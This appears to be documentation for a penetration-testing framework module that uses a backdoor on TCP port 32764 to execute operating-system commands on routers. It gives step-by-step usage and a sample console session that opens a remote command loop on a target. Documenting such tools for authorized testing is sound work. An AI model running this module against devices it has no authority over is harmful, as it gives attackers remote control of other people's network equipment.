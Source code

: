 ## Description

Module exploits backdoor functionality that allows executing commands on operating system level. 

## Verification Steps

  1. Start `./thgconsole.py`
  2. Do: `use exploits/routers/multi/tcp_32764_rce`
  3. Do: `set target [TargetIP]`
  4. Do: `run`
  5. If device is vulnerable it is possible to execute commands on operating system level.

## Scenarios

```
rsf > use exploits/routers/multi/tcp_32764_rce
rsf (TCP-32764 RCE) > set target 192.168.1.1
[+] target => 192.168.1.1
rsf (TCP-32764 RCE) > run
[*] Running module...
[+] Target is vulnerable
[*] Invoking command loop...

[+] Welcome to cmd. Commands are sent to the target via the execute method.
[*] For further exploitation use 'show payloads' and 'set payload <payload>' commands.

cmd > echo test
[*] Executing 'echo test' on the device...
[*] Connection established
test
cmd >
```
